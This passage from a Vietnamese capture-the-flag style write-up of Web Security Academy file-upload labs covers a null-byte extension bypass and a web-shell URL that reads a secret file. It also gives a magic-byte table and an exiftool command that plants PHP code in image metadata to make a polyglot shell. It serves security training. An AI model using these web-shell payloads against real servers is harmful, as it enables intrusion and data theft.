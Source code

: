 #### Exploit
- Thay đổi `evil.php` thành `evil.php%00.png`
- Mở file `evil.php` ở tab mới và khai thác
```
    https://0a2c00040341e23c8017bc0200510088.web-security-academy.net/files/avatars/evil.php?cmd=cat%20/home/carlos/secret
```

### Lab: Remote code execution via polyglot web shell upload
Thay vì chỉ kiểm tra phần đuôi `.jpg`, `.png`, server kiểm tra cả nội dung thật sự bên trong file **(file signature**/**magic bytes)**.

Common **(file signature**/**magic bytes)** table 

| Định dạng          | Magic Bytes (Hex)              | Magic Bytes (ASCII) | Ghi chú                |
| ------------------ | ------------------------------ | ------------------- | ---------------------- |
| **JPEG (JPG)**     | `FF D8 FF E0` – `FF D8 FF E8`  | `ÿØÿà` hoặc `ÿØÿè`  | File ảnh JPG           |
| **PNG**            | `89 50 4E 47 0D 0A 1A 0A`      | `.PNG....`          | File ảnh PNG           |
| **GIF87a**         | `47 49 46 38 37 61`            | `GIF87a`            | File ảnh GIF cổ điển   |
| **GIF89a**         | `47 49 46 38 39 61`            | `GIF89a`            | File ảnh GIF phổ biến  |
| **PDF**            | `25 50 44 46`                  | `%PDF`              | File PDF               |
| **ZIP**            | `50 4B 03 04`                  | `PK..`              | File nén .zip          |
| **RAR**            | `52 61 72 21 1A 07 00`         | `Rar!...`           | File RAR               |
| **7-Zip**          | `37 7A BC AF 27 1C`            | `7z...'.`           | File 7z                |
| **EXE (Windows)**  | `4D 5A`                        | `MZ`                | Executable .exe        |
| **ELF (Linux)**    | `7F 45 4C 46`                  | `.ELF`              | Executable ELF (Linux) |
| **BMP**            | `42 4D`                        | `BM`                | File ảnh Bitmap        |
| **TIFF (LE)**      | `49 49 2A 00`                  | `II*.`              | TIFF little endian     |
| **TIFF (BE)**      | `4D 4D 00 2A`                  | `MM.*`              | TIFF big endian        |
| **MP3**            | `49 44 33`                     | `ID3`               | File MP3 có metadata   |
| **MP4**            | `00 00 00 18 66 74 79 70`      | `....ftyp`          | File MP4               |
| **DOCX/XLSX/PPTX** | `50 4B 03 04`                  | `PK..`              | Thực chất là ZIP       |
| **Python (.pyc)**  | `42 0D 0D 0A` hoặc tùy version |                     | Bytecode Python        |

#### Idea 1: Insert shell into **metadata (Exif)** of IMAGE file
**Công cụ:** exiftool
```shell
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" input.jpg -o polyglot.php
```
